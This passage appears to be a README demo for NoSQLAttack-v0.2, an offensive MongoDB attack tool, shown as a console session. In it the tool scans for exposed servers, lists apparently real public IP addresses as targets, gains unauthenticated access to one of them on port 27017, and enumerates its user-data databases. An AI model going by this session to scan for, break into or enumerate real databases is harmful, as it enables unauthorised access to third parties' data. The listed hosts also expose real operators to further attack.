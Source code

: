 ```bash
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
```
# 选项1扫描可攻击IP演示 
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
```